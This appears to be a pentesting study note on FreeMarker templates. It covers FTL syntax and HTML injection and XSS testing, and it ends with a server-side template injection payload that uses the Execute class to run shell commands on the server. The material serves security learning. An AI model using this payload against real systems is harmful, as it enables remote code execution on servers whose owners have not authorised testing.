


# Freemarker

## Syntax

FreeMarker uses the [**FreeMarker Template Language (FTL)**](https://freemarker.apache.org/docs/dgui_template_overallstructure.html) which consists of text, interpolation, FTL tags, and comments.

```ftl
<html>[BR]
<head>[BR]
  <title>Welcome!</title>[BR]
</head>[BR]
<body>[BR]
  <#-- Greet the user with his/her name -->[BR]
  <h1>Welcome ${user}!</h1>[BR]
  <p>We have these animals:[BR]
  <ul>[BR]
  <#list animals as animal>[BR]
    <li>${animal.name} for ${animal.price} Euros[BR]
  </#list>[BR]
  </ul>[BR]
</body>[BR]
</html>
```

FreeMarker auto-escapes variables if the content type is an HTML document, while most other templating engines always escape HTML content unless specified not to. This make FreeMarker more susceptile to HTML injection (Figure 1.1) and XSS attacks (Figure 1.2).

<figure><figcaption><p>Figure 1: Testing HTML injection and XSS in FreeMarker.</p></figcaption></figure>

Unlike PHP used in [Twig](freemarker.md#twig), Java uses cares about data types so if an integer is multiplied with a string, we expect to get an error (Figure 2).

<figure><figcaption><p>Figure 2: Intentionally inducing an error.</p></figcaption></figure>

## SSTI

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

We can leverage the [`Execute`](https://freemarker.apache.org/docs/api/freemarker/template/utility/Execute.html) class which implements the `TemplateModel` interface to achieve RCE in a FreeMarker templating engine.

```ftl
${"freemarker.template.utility.Execute"?new()("whoami")}
```
